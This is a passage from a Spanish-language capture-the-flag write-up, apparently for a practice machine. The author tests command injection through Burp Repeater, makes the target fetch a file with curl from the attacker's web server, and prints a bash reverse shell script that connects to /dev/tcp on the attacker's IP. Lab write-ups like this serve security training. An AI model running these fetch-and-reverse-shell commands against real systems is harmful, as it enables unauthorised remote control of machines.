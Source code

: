 ## [](#header-2)POC

Dada la complejidad de esta carga útil, la usaré `curl`para leer un archivo desde mi máquina virtual y, si funciona, intentaré canalizarlo a `bash`. Entraré en el proxy Burp y buscaré la `id`solicitud de POC anterior. Enviaré esa solicitud al repetidor y la cambiaré `id`a `curl 10.10.14.6/shell`. Con un `python`servidor web en ejecución, enviaré la solicitud y habrá una solicitud en mi servidor web:

```
jorge@hacky$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.170 - - [21/Nov/2022 21:11:51] code 404, message File not found
10.10.11.170 - - [21/Nov/2022 21:11:51] "GET /shell HTTP/1.1" 404 -
```

## [](#header-2)Fallas en las tuberías

Agregaré un shell inverso bash a shell:

```
#!/bin/bash
bash >& /dev/tcp/10.10.14.6/443 0>&1
```

Intentando canalizar esto hacia bashlos resultados en esta solicitud:

```
10.10.11.170 - - [21/Nov/2022 21:15:35] code 404, message File not found
10.10.11.170 - - [21/Nov/2022 21:15:35] "GET /shell|bash HTTP/1.1" 404 -
```

Se interpreta |como parte de la solicitud y no como una canalización.

## [](#header-2)Guardar y ejecutar

Simplemente escribiré el shell en /tmp:

![Captura de pantalla de la web](assets/images/Redpandan/imagen_12.png)
